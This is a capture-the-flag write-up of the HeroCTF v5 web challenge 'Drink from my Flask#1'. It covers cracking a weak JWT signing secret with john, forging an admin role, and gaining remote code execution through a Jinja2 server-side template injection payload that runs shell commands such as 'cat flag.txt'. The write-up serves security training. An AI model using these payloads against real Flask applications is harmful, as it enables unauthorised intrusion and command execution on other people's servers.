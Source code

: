 # Drink from my Flask#1

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- 87 solves / 168 points
- Difficulty: Medium
- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

A friend of yours got into an argument with a flask developer. He tried handling it himself, but he somehow got his nose broken in the process... Can you put your hacker skills to good use and help him out?  
  
You should probably be able to access the server hosting your target's last project, shouldn't you ? I heard is making a lost of programming mistakes...  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513185709.png)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513185720.png)

In here, we need to supply `op`, `n1`, `n2` GET parameters, otherwise it'll return "Invalid operation".

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513185901.png)

When we go to `/`, it'll set a new cookie called `token`, and it's a JWT (JSON Web Token).

> Note: It's highlighted in green is because of the "JSON Web Tokens" extension in Burp Suite. 

**JWT Decoded:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513190019.png)

As you can see, it's using algorithm HS256, which is HMAC + SHA256. In the payload section, **it has a `role` claim, it's currently set to `guest`.**

**Hmm... Since HS256 is a symmetric signing key algorithm, we can try to brute force the signing secret.**

**To do so, I'll use `john`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|19:06:17(HKT)]
└> john jwt.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256
[...]
key              (?)     
[...]
```

**Nice!! We successfully cracked the signing secret: `key`!!**

Now, we can sign our modified JWT via [jwt.io](https://jwt.io/)!

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513191014.png)

But what value should we modify in the `role` claim?

Hmm... Don't know yet.

**Let's try to provide `op`, `n1`, `n2` GET parameters in `/`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513191526.png)

Maybe we can do command injection??

But nope, I tried.

**Then, I try to go to a non-existance page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192018.png)

And oh! We found the admin page!

**We now shouldn't able to visit the admin page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192042.png)

**Now, as the JWT signing secret was found, let's modify the `role` claim to `admin`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192146.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192212.png)

Umm... What? Just that?

**In those 404 page and `/adminPage`, it's vulnerable to reflected XSS:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192718.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192805.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192753.png)

However, those aren't useful for us... Our goal should be finding sever-side vulnerability...

**I also noticed this weird error:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513193501.png)

> "Anormaly long payload"

After poking around, I have no idea what should I do...

Ah! Wait, how do the 404 page is rendered?

**You guessed! Flask is using a template engine called "Jinja2":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513211612.png)

Nice! We can try to gain Remote Code Execution (RCE) via Server-Side Template Injection (SSTI)!

## Exploitation

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#rce-escaping), we could gain RCE via the following payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513211927.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513211933.png)

Ahh... I now know why the "Anormaly long payload" exist...

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|21:20:45(HKT)]
└> curl http://dyn-04.heroctf.fr:12369/$(python3 -c "print('A' * 34)")
<h2>/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA was not found</h2><br><p>Only routes / and /adminPage are available</p>                                                                                                       ┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|21:20:47(HKT)]
└> curl http://dyn-04.heroctf.fr:12369/$(python3 -c "print('A' * 35)")
Anormaly long payload
```

As you can see, the path is limited to 34 characters.

**So... We need to craft a SSTI payload that less than 35 characters.**

To bypass that, we can **use the `config` object instance in Flask.** This object instance stores the server's configuration:

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513213012.png)

**In that object instance, it has a method called `update`, which add/update an attribute in that object instance:**
```python
config.update(key=value)
```

That being said, we can use the `update()` method to save some characters!

However, I don't wanna go through that painful route!

**Do you still remember we have reflected XSS in `/adminPage` with the JWT's `role` claim?**

**Does it have any character limit AND vulnerable to SSTI?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220228.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220235.png)

Nice!! That `/adminPage` doesn't have any character limit!

**Let's try to gain RCE again:**
```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -lah').read() \}\}
```

> Note: Once again, the above payload is from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) 

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220657.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220703.png)

**Let's read the flag!!**
```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() \}\}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220758.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220810.png)

- **Flag: `Hero{sst1_fl4v0ur3d_c0Ok1e}`**

## Conclusion

What we've learned:

1. Cracking JWT Secret & Exploiting RCE Via SSTI